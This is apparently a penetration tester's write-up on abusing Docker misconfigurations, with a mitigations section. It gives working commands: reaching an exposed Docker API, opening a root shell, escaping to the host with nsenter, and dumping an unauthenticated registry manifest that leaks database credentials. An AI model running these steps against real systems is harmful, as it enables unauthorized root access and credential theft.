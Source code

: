 # Abusing docker misconfiguration
I took advantage of chained misconfiguration to escape the container and get access to host OS
## First misconfiguration
The container was externally exposed

    nmap -sV -p 2375 192.168.1.100
    ...
    PORT     STATE SERVICE VERSION
    2375/tcp open  docker  Docker 20.10.20 (API 1.41)
    Service Info: OS: linux
Find remote running containers

    docker -H tcp://192.168.1.100:2375 ps                             
    CONTAINER ID   IMAGE     ...   
    2225bfdee7ec   devsrv01  ...       

Get a shell inside the remote container

    docker -H tcp://192.168.1.100:2375 exec -it 2225bfdee7ec /bin/bash
    root@2225bfdee7ec:/etc/ssh#     
## Inspect the container

    root@2225bfdee7ec:/etc/ssh# ps aux
    USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    root           1  0.0  0.5 102540 11388 ?        Ss   13:14   0:03 /sbin/init
    ...
There are a total of 191 running process, very strange for a container: maybe the container is sharing the same namespace with the host OS? That would imply the container can communicate with the processes on the host.

## Abusing the second misconfiguration: shared host namespace
Here we are abusing <b>nsenter</b> command, that allows us to execute a processes in a differen namespace. 
In this scenario, since the container can see the <i>/sbin/init</i> process on the host machine, we can try to execute a shell on the host context. Let's give it a try: 

    root@2225bfdee7ec:/etc/ssh# hostname
    2225bfdee7ec
    root@2225bfdee7ec:/etc/ssh# nsenter --target 1 --mount --uts --ipc --net /bin/bash
    root@xxxxx.local:/# whoami
    root
And here we are!
For more information on the nsenter (namespace enter) command you can consult the related manual.

## Mitigations
Protect Docker daemon socket. To accomplish that you can:
1. Don't expose it
2. [Use SSH](https://docs.docker.com/engine/security/protect-access/#use-ssh-to-protect-the-docker-daemon-socket)
3. [Use TLS\HTTPS](https://docs.docker.com/engine/security/protect-access/#use-tls-https-to-protect-the-docker-daemon-socket). More information using [Self-signed certificates](https://gist.github.com/nicosingh/d8bf0defdd4c911bda3392e420d665dd)
4. Don't run containers in <b>privileged mode</b>. It's recommended assigning specific capabilities to a container, rather than running it with the --privileged flag. More info about capabilities [here](https://docs.docker.com/engine/security/#linux-kernel-capabilities).
5. Scan you docker images. Some toools are: docker scout, grype

## A final note
Actually I faced this scenario in a real engagement.

## Abuse Docker Registry to get repo manifest
### Discover

     nmap -sV docker-srv.local
     ...
     PORT     STATE SERVICE VERSION
    ...
    5000/tcp open  http    Docker Registry (API: 2.0)
    7000/tcp open  http    Docker Registry (API: 2.0)

### List all registered repo for the second registry

    curl http://docker-srv.local:7000/v2/_catalog
    {"repositories":["app01/webserver"]}

### List all tags related to the repo

    curl http://docker-srv.local:7000/v2/app01/webserver/tags/list
    {"name":"app01/webserver","tags":["prod"]}

### Get the related manifest file for the tag

    curl http://docker-srv.local:7000/v2/app01/webserver/manifests/prod
    ...
    {
       "schemaVersion": 1,
       "name": "app01/webserver",
       "tag": "prod",
       "architecture": "amd64",
       "fsLayers": [
          {
             "blobSum": "sha256:7a668bba7a1a84d9db8a2fb2826f777e64233780a110041db8d42b77515cf57"
          },
    ....
    "history": [
      {
         "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"\",\"Domainname\":\"\",\"User\":\"\",\
         ...
         "printf \\\"Username: admin\\\\nPassword: _admin$23_\\\\n\\\"... /var/www/html/database.config\"],\"Image\":\"sha256:1e4a2d11384ed8ac500f2762825c3f3d134ad5d78813a5d044357b66d4c91800\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\"
         ....

Above we can see that we retrived the credentials for the a DB, from the history
